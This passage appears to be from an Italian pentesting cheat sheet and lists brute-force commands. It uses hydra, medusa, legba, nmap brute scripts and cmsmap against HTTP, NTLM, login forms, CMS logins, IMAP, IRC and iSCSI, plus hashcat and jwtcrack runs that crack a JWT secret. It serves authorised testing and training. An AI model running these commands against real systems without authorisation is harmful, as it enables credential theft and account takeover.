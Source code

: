 #### [**WFuzz**](../pentesting-web/web-tool-wfuzz.md)

### HTTP Autenticazione di Base
```bash
hydra -L /usr/share/brutex/wordlists/simple-users.txt -P /usr/share/brutex/wordlists/password.lst sizzle.htb.local http-get /certsrv/
# Use https-get mode for https
medusa -h <IP> -u <username> -P  <passwords.txt> -M  http -m DIR:/path/to/auth -T 10
legba http.basic --username admin --password wordlists/passwords.txt --target http://localhost:8888/
```
### HTTP - NTLM
```bash
legba http.ntlm1 --domain example.org --workstation client --username admin --password wordlists/passwords.txt --target https://localhost:8888/
legba http.ntlm2 --domain example.org --workstation client --username admin --password wordlists/passwords.txt --target https://localhost:8888/
```
### HTTP - Modulo Post
```bash
hydra -L /usr/share/brutex/wordlists/simple-users.txt -P /usr/share/brutex/wordlists/password.lst domain.htb  http-post-form "/path/index.php:name=^USER^&password=^PASS^&enter=Sign+in:Login name or password is incorrect" -V
# Use https-post-form mode for https
```
Per http**s** devi cambiare da "http-post-form" a "**https-post-form"**

### **HTTP - CMS --** (W)ordpress, (J)oomla o (D)rupal o (M)oodle
```bash
cmsmap -f W/J/D/M -u a -p a https://wordpress.com
# Check also https://github.com/evilsocket/legba/wiki/HTTP
```
### IMAP
```bash
hydra -l USERNAME -P /path/to/passwords.txt -f <IP> imap -V
hydra -S -v -l USERNAME -P /path/to/passwords.txt -s 993 -f <IP> imap -V
nmap -sV --script imap-brute -p <PORT> <IP>
legba imap --username user --password data/passwords.txt --target localhost:993
```
### IRC
```bash
nmap -sV --script irc-brute,irc-sasl-brute --script-args userdb=/path/users.txt,passdb=/path/pass.txt -p <PORT> <IP>
```
### ISCSI
```bash
nmap -sV --script iscsi-brute --script-args userdb=/var/usernames.txt,passdb=/var/passwords.txt -p 3260 <IP>
```
### JWT
```bash
#hashcat
hashcat -m 16500 -a 0 jwt.txt .\wordlists\rockyou.txt

#https://github.com/Sjord/jwtcrack
python crackjwt.py eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJkYXRhIjoie1widXNlcm5hbWVcIjpcImFkbWluXCIsXCJyb2xlXCI6XCJhZG1pblwifSJ9.8R-KVuXe66y_DXVOVgrEqZEoadjBnpZMNbLGhM8YdAc /usr/share/wordlists/rockyou.txt

#John
```